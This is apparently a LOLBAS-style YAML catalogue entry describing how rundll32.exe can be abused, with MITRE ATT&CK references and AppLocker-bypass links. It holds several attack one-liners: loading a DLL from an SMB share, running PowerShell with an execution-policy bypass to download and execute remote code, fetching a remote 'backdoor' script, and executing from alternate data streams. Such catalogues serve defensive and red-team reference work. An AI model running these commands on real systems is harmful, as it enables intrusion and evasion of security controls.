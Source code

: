 ```yaml
---
Name: Rundll32.exe
Description: Used by Windows to execute dll files
Author: "Oddvar Moe"
Created: "2018-05-25"
Commands:
  - Command: rundll32.exe AllTheThingsx64,EntryPoint
    Description: AllTheThingsx64 would be a .DLL file and EntryPoint would be the name of the entry point in the .DLL file to execute.
    Usecase: Execute dll file
    Category: Execute
    Privileges: User
    MitreID: T1085
    MitreLink: https://attack.mitre.org/wiki/Technique/T1085
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10
  - Command: rundll32.exe \\10.10.10.10\share\payload.dll,EntryPoint
    Description: Use Rundll32.exe to execute a DLL from a SMB share. EntryPoint is the name of the entry point in the .DLL file to execute.
    Usecase: Execute DLL from SMB share.
    Category: Execute
    Privileges: User
    MitreID: T1085
    MitreLink: https://attack.mitre.org/techniques/T1085
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10
  - Command: rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";document.write();new%20ActiveXObject("WScript.Shell").Run("powershell -nop -exec bypass -c IEX (New-Object Net.WebClient).DownloadString('http://ip:port/');"
    Description: Use Rundll32.exe to execute a JavaScript script that runs a PowerShell script that is downloaded from a remote web site.
    Usecase: Execute code from Internet
    Category: Execute
    Privileges: User
    MitreID: T1085
    MitreLink: https://attack.mitre.org/wiki/Technique/T1085
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10
  - Command: rundll32.exe javascript:"\..\mshtml.dll,RunHTMLApplication ";eval("w=new%20ActiveXObject(\"WScript.Shell\");w.run(\"calc\");window.close()");
    Description: Use Rundll32.exe to execute a JavaScript script that runs calc.exe.
    Usecase: Proxy execution
    Category: Execute
    Privileges: User
    MitreID: T1085
    MitreLink: https://attack.mitre.org/wiki/Technique/T1085
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10
  - Command: rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";document.write();h=new%20ActiveXObject("WScript.Shell").run("calc.exe",0,true);try{h.Send();b=h.ResponseText;eval(b);}catch(e){new%20ActiveXObject("WScript.Shell").Run("cmd /c taskkill /f /im rundll32.exe",0,true);}
    Description: Use Rundll32.exe to execute a JavaScript script that runs calc.exe and then kills the Rundll32.exe process that was started.
    Usecase: Proxy execution
    Category: Execute
    Privileges: User
    MitreID: T1085
    MitreLink: https://attack.mitre.org/wiki/Technique/T1085
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10
  - Command: rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";document.write();GetObject("script:https://raw.githubusercontent.com/3gstudent/Javascript-Backdoor/master/test")
    Description: Use Rundll32.exe to execute a JavaScript script that calls a remote JavaScript script.
    Usecase: Execute code from Internet
    Category: Execute
    Privileges: User
    MitreID: T1085
    MitreLink: https://attack.mitre.org/wiki/Technique/T1085
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10
  - Command: rundll32 "C:\ads\file.txt:ADSDLL.dll",DllMain
    Description: Use Rundll32.exe to execute a .DLL file stored in an Alternate Data Stream (ADS).
    Usecase: Execute code from alternate data stream
    Category: ADS
    Privileges: User
    MitreID: T1096
    MitreLink: https://attack.mitre.org/wiki/Technique/T1096
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10
  - Command: rundll32.exe -sta {CLSID}
    Description: Use Rundll32.exe to load a registered or hijacked COM Server payload.  Also works with ProgID.
    Usecase: Execute a DLL/EXE COM server payload or ScriptletURL code.
    Category: Execute
    Privileges: User
    MitreID:
    MitreLink:
    OperatingSystem: Windows 10 (and likely previous versions)
Full_Path:
  - Path: C:\Windows\System32\rundll32.exe
  - Path: C:\Windows\SysWOW64\rundll32.exe
Code_Sample:
  - Code:
Detection:
  - IOC:
Resources:
  - Link: https://pentestlab.blog/2017/05/23/applocker-bypass-rundll32/
  - Link: https://evi1cg.me/archives/AppLocker_Bypass_Techniques.html#menu_index_7
  - Link: https://oddvar.moe/2017/12/13/applocker-case-study-how-insecure-is-it-really-part-1/
  - Link: https://oddvar.moe/2018/01/14/putting-data-in-alternate-data-streams-and-how-to-execute-it/
  - Link: https://bohops.com/2018/06/28/abusing-com-registry-structure-clsid-localserver32-inprocserver32/
  - Link: https://github.com/sailay1996/expl-bin/blob/master/obfus.md
  - Link: https://github.com/sailay1996/misc-bin/blob/master/rundll32.md
Acknowledgement:
  - Person: Casey Smith
    Handle: "@subtee"
  - Person: Oddvar Moe
    Handle: "@oddvarmoe"
  - Person: Jimmy
    Handle: "@bohops"
  - Person: Sailay
    Handle: "@404death"
  - Person: Martin Ingesen
    Handle: "@Mrtn9"
---
```

